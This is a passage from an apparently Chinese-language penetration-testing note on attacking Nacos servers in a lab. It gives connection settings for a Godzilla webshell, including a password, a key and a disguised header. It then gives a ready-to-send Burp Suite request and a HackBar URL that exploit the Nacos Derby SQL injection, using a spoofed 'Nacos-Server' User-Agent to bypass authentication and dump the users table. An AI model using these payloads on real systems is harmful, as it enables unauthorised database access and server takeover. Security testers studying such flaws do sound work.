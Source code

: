```python
http://192.168.70.14:8848/nacos/
pass
key

x-client-data:godzilla
Referer:https://www.google.com/
```

![image-20240927100347473](https://image.201068.xyz/assets/37.微服务/image-20240927100347473.png)

![image-20240927100414482](https://image.201068.xyz/assets/37.微服务/image-20240927100414482.png)

![image-20240927100510437](https://image.201068.xyz/assets/37.微服务/image-20240927100510437.png)

### 3.Nacos Derby SQL 注入

可以和其它认证相关漏洞一起进行利用：可以和其它认证相关漏洞一起进行利用：

`Nacos`在`derby`端点存在sql注入

#### burpsuite

> User-Agent: Nacos-Server

```python
GET /nacos/v1/cs/ops/derby?sql=%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%75%73%65%72%73 HTTP/1.1
Host: 192.168.70.14:8848
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Nacos-Server
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyNzMzOTkwMXxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fEbp4tK3jtymPIGzrHIPb7fc5lDlhVpfzJADxhpbSyri
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![image-20240927100813309](https://image.201068.xyz/assets/37.微服务/image-20240927100813309.png)

#### hackbar

> User-Agent: Nacos-Server

```mysql
http://192.168.70.14:8848/nacos/v1/cs/ops/derby?sql=select * from users
```

![image-20240927101241391](https://image.201068.xyz/assets/37.微服务/image-20240927101241391.png)

